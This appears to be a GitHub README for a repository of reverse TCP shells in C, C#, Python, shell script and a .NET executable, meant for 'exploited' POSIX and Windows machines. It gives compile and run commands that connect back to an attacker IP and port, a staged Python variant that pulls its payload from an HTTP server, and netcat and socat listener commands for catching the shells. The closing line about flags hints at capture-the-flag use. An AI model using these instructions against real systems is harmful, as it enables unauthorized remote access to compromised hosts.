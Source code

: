 # Reverse-Shell-Lib
The following repository contains multiple versions of a reverse tcp netcat shell for use on exploited POSIX or WIN machines

# C Reverse Shell
  In order to use this shell it must be compiled with the following command
  
    gcc reverse_tcp.c -o reverse_tcp
  
  It may then be called by:
  
    ./reverse_tcp [callback_ip] [port]
  
 
# C# Reverse Shell
  If dotnet is installed on the system you may use the C# program
  
  In order to use this shell it must be compiled with the following command
  
    dotnet build reverse_tcp.cs
    
  It may then be called by:
    
    ./reverse_tcp [callback_ip] [port]
  
# Python Reverse Shell
  If python3 is on the system you may use the reverse_tcp.py script
  
  Simply call it with the following command:
  
    python3 reverse_tcp.py [callback_ip] [port]
  
  # Staged Python Shell
  If you wish to run a staged shell you must first host the "reverse_tcp.py" payload on a HTTP server and you must configure its default callback address

  to call a staged shell run the following command:

    python3 reverse_tcp_staged.py http://[HTTPSERVER]/[route to reverse_tcp.py]
  
# Shell Script Reverse Shell
  This should be the most effective as it should run on all targets and is in fact the smallest payload
  
  Simply chmod it and call it like so:
    
    ./reverse_tcp.sh [callback_ip] [port]
    
 # Windows Reverse Powershell
  Since none of the other methods work on windows the reverse_tcp.exe is a .NET executable with the same ease of use as the others
  
  To run this on a target simply run it from the command line like so:
  
    .\reverse_tcp.exe [callback_ip] [port]
    
    
# Attacker Listener
  These reverse shells were all written for ease of use, attackers can open a simple netcat or socat listener to receive the payloads
  
  Netcat:
  
    nc -nvlp [port]
    
  Socat:
  
    socat -d -d TCP4-LISTEN:[port] STDOUT
    
  A note for these is they will only work for the POSIX payloads
  
  In order to listen for the Windows payload the command has to be slightly tweaked
  
  Windows Listener:
  
    stty raw -echo; (stty size; cat) | nc -nvlp [port]
    
    Note: this will wreck your shells sizing so start a new window for each use
    
  Now start looking for those flags happy hacking! XD
  
    
    
